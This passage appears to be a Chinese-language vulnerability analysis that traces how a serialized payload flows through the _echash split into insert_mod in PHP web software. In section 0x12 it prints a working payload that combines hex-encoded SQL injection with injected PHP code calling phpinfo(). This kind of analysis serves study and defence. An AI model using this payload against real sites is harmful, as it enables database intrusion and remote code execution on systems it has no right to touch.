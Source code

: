 *   45ea207d7a2b68c49582d2d22adf953aads 是什么？
    
*   \_echash? 对结果通过 echash 进行分割处理
    

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenxJSgtribic1DY09KnNwicefQbKLNL5qbmtm9tyeQxIiaFudrXlN2ueSG2Biaw1K8Wm7KjxbF1wHypiaqg/640?wx_fmt=png)

**0x10**

*   Display
    
*   45ea207d7a2b68c49582d2d22adf953aads 是什么？
    
*   \_echash 的值
    
*   与 payload 中 45ea207d7a2b68c49582d2d22adf953aads 对比  多了 ads
    

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenxJSgtribic1DY09KnNwicefQrCSlZAhIbibVGVVviattfPezxIbib1rrzOia5lLLdw1PWlBjD6nLcyhBicQ/640?wx_fmt=png)

**0x11**

*   Display
    
*   Insert\_mod 
    
*   分割?(通过 | 进行了分割处理传参)
    

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenxJSgtribic1DY09KnNwicefQpUeosia6Q49uNdJj5d81AmCicpJ3JVAdeibHfiaBg3OLnO4KEIDiae073lA/640?wx_fmt=png)

**0x12**

*   Display
    
*   Insert\_mod 
    
*   a:2:{s:3:“num”;s:107:“\*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -”;s:2:“id”;s:11:“-1‘ UNION/\*”;} // 为什么要序列化?
    

  

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenxJSgtribic1DY09KnNwicefQEjk1zqbVbs7nPqYJqwoUXzkwctup0xNUKHpPhlG5wGuQCEMicsgRoqw/640?wx_fmt=png)

**0x13**

*   SQL
    
    通过\_echash 进行分割，传参进入 insert\_mod
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenxJSgtribic1DY09KnNwicefQluNzKUlq9ePlKtmTxK47Pibfeyoblw5gK381F4gXic2cGcrw81aoAtYg/640?wx_fmt=png)
    

**0x14**

*   SQL
    

通过\_echash 进行分割, 传参进入 insert\_mod, 打印 $k 会发现分割后, 剩下的 ads | 序列化后的数据, 进入 insert\_mod(key 值为 5, 满足 $key%2 ==1）

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgenxJSgtribic1DY09KnNwicefQzfm0xcChXGovniaU6VspdlYuKUfZiaE7d38ibcZPrDwvO8vvME1q8ulOQ/640?wx_fmt=png)
